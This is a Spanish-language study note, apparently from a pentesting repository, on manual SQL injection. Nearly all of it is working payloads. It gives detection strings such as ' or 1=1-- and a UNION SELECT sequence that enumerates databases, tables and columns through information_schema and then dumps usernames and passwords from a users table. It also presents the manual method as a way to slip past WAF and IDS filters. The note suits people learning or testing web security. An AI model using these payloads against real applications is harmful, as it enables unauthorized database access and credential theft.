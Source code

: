 # Manual SQL injection

## Ventajas de la inyección sql a mano
- Es más facil de bypasear los filtros de seguridad como WAF o IDS
- obtenemos más control sobre la inyección

[CheatSheets de inyecciones SQL manuales](https://pentestmonkey.net/category/cheat-sheet)

### El orden es DB => Tabla => Columnas

### Detección
- Primero verificamos si la aplicación es vulnerable a inyección sql con payloads como: `' or 1=1--`, o si no `-- +` o `#`
- Si la aplicación es vulnerable, podemos usar `UNION SELECT` para obtener información de otras tablas
- Si la aplicación no es vulnerable a `UNION SELECT`, podemos usar `ORDER BY` para obtener información de otras tablas
    - `ORDER BY` nos permite ordenar los resultados de una consulta SQL
- `10' union select 1,2,3,4,5,6 -- -`
    - Entonces tenemos la consulta:
        - **10**: es el id de la consulta legitima
        - **'**: es el delimitador de la consulta que hace que la consulta se rompa
        - **union select**: es la parte que nos permite unir dos consultas
        - **1,2,3,4,5,6**: son los valores que queremos obtener de la segunda consulta
- Partiendo de `10' union select 1, X,3,4,5,6 -- - ` podemos hacer otro tipo de consultas como que db usa, etc.
    - `10' union select 1, database(),3,4,5,6 -- -`
- Si quiero listar **TODAS las bases de datos**:
    - `10' union select 1, schema_name,3,4,5,6 from information_schema.schemata -- -`
- Ahora por ejemplo si queremos saber que tablas hay en la base de datos podemos hacer:
    - `10' union select 1, table_name,3,4,5,6 from information_schema.tables where table_schema=database() -- -`
    - Para ver todas las tablas de una base de datos:
    - `10' union select 1, table_name,3,4,5,6 from information_schema.tables where table_schema='NOMBRE_BASE_DE_DATOS' -- -`
    - Para ver todas las columnas de una tabla:
        - `10' union select 1, column_name,3,4,5,6 from information_schema.columns where table_name='NOMBRE_TABLA' -- -`
      - Ahora para dumpear la información de la tabla podemos hacer:
        - `10' union select 1, column1, column2,4,5,6 from table_name -- -`
      - Ejemplo:
        - `10' union select 1, username, password,4,5,6 from users -- -`
        - `10' union select 1, column1, column2,4,5,6 from database_name.table_name -- -`